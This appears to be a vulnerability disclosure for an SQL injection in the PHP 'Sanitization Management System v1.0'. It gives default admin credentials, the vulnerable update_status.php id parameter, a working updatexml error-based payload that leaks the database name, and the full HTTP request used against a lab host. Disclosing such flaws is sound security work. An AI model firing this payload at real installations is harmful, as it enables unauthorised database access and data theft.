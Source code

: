# Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: BGP-OSPF

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/admin/orders/update_status.php?id=

Vulnerability location: /php-sms/admin/orders/update_status.php?id=, id

dbname =sms_db,length=6

[+] Payload:  /php-sms/admin/orders/update_status.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


```sql
GET /php-sms/admin/orders/update_status.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195977772-f5b4e5ff-19db-4dd3-9878-8047c2c5f0a4.png)
